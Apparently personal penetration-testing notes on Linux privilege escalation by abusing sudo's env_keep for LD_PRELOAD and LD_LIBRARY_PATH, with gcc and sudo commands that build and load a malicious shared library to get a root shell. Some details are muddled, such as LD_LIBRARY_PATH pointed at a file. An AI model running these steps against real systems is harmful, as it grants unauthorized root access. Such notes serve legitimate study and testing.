 ## Exploiting persisted LD_LIBRARY environment variable with sudo permissions ##
# If 'sudo -l' shows that LD_LIBRARY persists through the sudo environment
# and there are commands that can be run as sudo, try this exploit

# First compile the preload.c file as a shared library and store in /tmp/ as /tmp/preload.so
# This is going to create a library to be run before everything else (LD_LIBRARY=/tmp/preload.c)
    gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

# The compiled shared library contains a shell script that spawns a root bash shell
# The next step is to run sudo, specify the compiled .so file as the library to run first and then
# use one of the programs that the user is allowed to run as root, in order for everything to take place
# within an elevated privilege environment
    sudo LD_PRELOAD=/tmp/preload.so <program>

## Exploiting persisted LD_LIBRARY_PATH environment variable with sudo permissions ##
# Same rules apply as above, LD_LIBRARY_PATH must be set as env_keep and at least one sudo privileged program

# Similar mechanisms run with a LD_LIBRARY_PATH exploit
# But, instead of an LD_PRELOAD library being replaced with malicious code
# the computer is being told to search a particular directory, for a shared library,
# where a malicious script, of the same name as a legitimate shared library, will be
# executed.

# Step one is to list the shared libraries that the computer will be told to search for
    ldd /usr/sbin/apache2

# Step two is to compile a malicious script, with the name of one of the shared libraries
# that LD_LIBRARY_PATH is being told to search for
    gcc -o /tmp/shared_lib_example.so -shared -fPIC library_path.c

# Final step is to exploit with
    sudo LD_LIBRARY_PATH=/tmp/shared_lib_example.so <program>